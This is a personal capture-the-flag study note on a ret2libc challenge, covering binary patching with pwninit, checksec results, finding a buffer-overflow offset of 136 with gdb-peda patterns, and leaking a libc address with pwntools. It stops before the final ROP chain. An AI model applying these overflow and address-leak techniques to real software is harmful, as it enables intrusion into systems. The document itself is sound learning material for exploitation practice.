 # Lesson Learn
- `LIBC`
- `pwninit`
- `readelf`
    - `-s`  
        -s or --symbols: Display the symbol table.
- `PIE` on Linux Binary
    - Position-Independent Executables
    - vs ASLR
- `Makefile`
- `ROP`
    - ret2main
    - system() and `Stack Alighment`
        - https://uchan.hateblo.jp/entry/2018/02/16/232029
        - https://www.ctfnote.com/pwn/linux-exploitation/rop/stack-alignment
- `ROPgadget`
- `GOT` and `PLT`
    - https://keichi.dev/post/plt-and-got/
- `gdb-peda`
    - pattern_create
    - pattern_offset
- `pwntools`
    - `recv(6)`  
        comination of `recvline()`, trim and padding
        ```python
        a = recvline()
        print(len(a))
        # 6
        recv(6).ljust(8,b"\x00")
        ```
    - type: `bytes` and `len()`
        You can use len() to bytes value.  
        `len()` can adjust to each type and calculate a length of value as the type.  
        ```python
        a = 123
        b ="123"
        c = 0x123
        d = b'123\x89\xe3\x81\xad456'

        # print("int : " + len(a)) #error
        print("string : " + str(len(b)))
        # print("hex : " + str(len(c))) #error
        print("bytes : " + str(len(d)))

        #string : 3
        #bytes : 10
        ```
    - `u64`  
        In pwntools, u64 refers to an "unpack 64-bit" operation, and it's used to convert a byte string (sequence of 8 bytes) into an unsigned 64-bit integer.  
        The `u64` function is part of pwntools' utility functions for binary data manipulation.  
        https://docs.pwntools.com/en/stable/util/packing.html
        - why `64`?  
            This is likely the reason.
            ```zsh
            $ file vuln_patched
            vuln_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=e5dba3e6ed29e457cd104accb279e127285eecd0, not stripped
            ```
        - why `.ljust(8,b"\x00")`  
            This is because that "unpack" requires a buffer of 8 bytes.
            ```python
            ## debug
            # res = p.recvline()
            # print(res)           # b'0z\x8e\x99\xcd\x7f\n'
            # print(len(res))      # 7
            
            res = p.recv(6)
            print(res)                                          # b'0z\x8e\x99\xcd\x7f'
            print(res.ljust(8,b"\x00"))                         # b'0z\x8e\x99\xcd\x7f\x00\x00'
            print(u64(res.ljust(8,b"\x00")))                    # 140521021274672 ... 64 bit integer
            # print(u64(res.ljust(9,b"\x00")))                  # error: unpack requires a buffer of 8 bytes
            # print(u64(res.ljust(16,b"\x00")))                 # error: unpack requires a buffer of 8 bytes
            # print("debug" + u64(res.ljust(8,b"\x00")))        # error: str + byte
            print("debug : " + hex(u64(res.ljust(8,b"\x00"))))  # 0x7fcd998e7a30
            ```

# Write Up
1. fix binary
    ```zsh
    $ ./vuln
            Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion 'sym != NULL' failed!
    $
    $ ldd ./vuln
            linux-vdso.so.1 (0x00007f88c830f000)
            libc.so.6 => ./libc.so.6 (0x00007f88c7e00000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f88c8311000)
    $ strings ./libc.so.6 | grep -i version
    $ pwninit --bin ./vuln --libc ./libc.so.6
    $ ldd ./vuln_patched 
            linux-vdso.so.1 (0x00007ffeaabf6000)
            libc.so.6 => ./libc.so.6 (0x00007f8fb4600000)
            ./ld-2.27.so => /lib64/ld-linux-x86-64.so.2 (0x00007f8fb4aa3000)
    ```
    - https://qiita.com/Hashibirokou/items/8d76fc88bd6daaf8f067
    - https://sh0ebill.hatenablog.com/entry/2022/09/28/215346

2. check binary
    ```zsh
    $ checksec --file=./vuln_patched --format=json | jq .
    ```
    ```json
        {
            "./vuln_patched": {
                "relro": "partial",
                "canary": "no",
                "nx": "yes",
                "pie": "no",
                "rpath": "no",
                "runpath": "yes",
                "symbols": "yes",
                "fortify_source": "no",
                "fortified": "0",
                "fortify-able": "0"
            }
        }
    ```

3. ghidra

4. gdb-peda
    ```zsh
    # command test
    gdb-peda$ continue
    gdb-peda$ stack
    gdb-peda$ info register
    gdb-peda$ info break
    gdb-peda$ pattern_create 200 # buffer over flow
    gdb-peda$ pattc 200
    gdb-peda$
    # start analize
    gdb-peda$
    gdb-peda$ break *0x4006ef # scanf
    gdb-peda$ break *0x400770 # return
    gdb-peda$ start
    gdb-peda$ pattern_create 200
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
    gdb-peda$ c
    # copy-and-paste
    ...
    [-------------------------------------code-------------------------------------]
    0x40076e <do_stuff+150>:     nop
    0x40076f <do_stuff+151>:     leave
    => 0x400770 <do_stuff+152>:     ret
    0x400771 <main>:     push   rbp
    0x400772 <main+1>:   mov    rbp,rsp
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdcc8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0008| 0x7fffffffdcd0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0016| 0x7fffffffdcd8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0024| 0x7fffffffdce0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    [------------------------------------------------------------------------------]
    ...
    gdb-peda$ pattern_offset AAQAAm
    AAQAAm found at offset: 136
    ```

5. think about ROP

6. pwntools
    - p64 and u64
        "p" stands for packing and "u" stands for unpacking.
        ```zsh
        p8(0)
        b'\x00'
        p32(0xdeadbeef)
        b'\xef\xbe\xad\xde'
        p32(0xdeadbeef, endian='big')
        b'\xde\xad\xbe\xef'
        with context.local(endian='big'): p32(0xdeadbeef)
        b'\xde\xad\xbe\xef'
        ```
    - calculate static offset
        ```zsh
        $ readelf -s ./libc.so.6 | grep puts
        191: 0000000000080a30   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
        422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
        496: 0000000000126870  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
        678: 0000000000128780   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
        1141: 000000000007f260   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
        ```
        pwntools
        ```python
        ...
        libc_base=addr-libc.symbols['puts']
        print("static offset ...")
        print(hex(libc.symbols['puts']))
        # 0x80a30
        ...
        ```
    - receive result of the first ROP
        the result is here.  
        ```python
        res = p.recvline()
        print(res)                  # b'0j\xee\x95\x9e\x7f\n'
        print(len(res))             # 7
        print(res.ljust(8,b"\x00")) # b'0j\xee\x95\x9e\x7f\n\x00'
        ```
        However, I don't need the last bytes for a new line which is `\n`.  
        So I trim it.
        ```python
        res = p.recv(6)
        print(res)                  # b'0j\xee\x95\x9e\x7f'
        print(len(res))             # 6
        print(res.ljust(8,b"\x00")) # b'0j\xee\x95\x9e\x7f\x00\x00'
        ```

7. think about the next ROP


# Ref  
- https://papadoxie.github.io/Writeups/PicoCTF/HeresALIBC/HeresALIBC.html  
- https://cashitsuki.com/posts/2021-12-15-pwninit-manually/  
- https://qiita.com/Hashibirokou/items/8d76fc88bd6daaf8f067  
- https://ret2home.github.io/blog/CTF/picoctf-2021/pwn/hereslibc/
 -https://sh0ebill.hatenablog.com/entry/2022/09/08/211727
- https://qiita.com/tobira-code/items/7ae54a22158aea1a8579  
- https://zenn.dev/kusunoki576/articles/a785672cbc4e0a